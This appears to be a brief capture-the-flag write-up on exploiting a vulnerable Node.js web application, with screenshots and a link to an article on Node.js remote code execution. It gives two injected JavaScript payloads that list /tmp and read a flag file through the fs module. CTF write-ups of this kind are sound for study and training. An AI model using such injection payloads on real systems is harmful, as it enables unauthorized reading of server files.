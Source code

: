 ![image-20240414043134123](./assets/image-20240414043134123.png)

Challenge was a vulnerable Nodejs Web application.

![image-20240414042650148](./assets/image-20240414042650148.png)

https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44

```
var fs=require("fs");fs.readdirSync("/tmp").toString('utf8')
var fs=require("fs");fs.readFileSync("/tmp/flag_MDA0O.txt").toString('utf8')
```

![image-20240414042823374](./assets/image-20240414042823374.png)

![image-20240414043029711](./assets/image-20240414043029711.png)

I forget to screenshot a flag file content.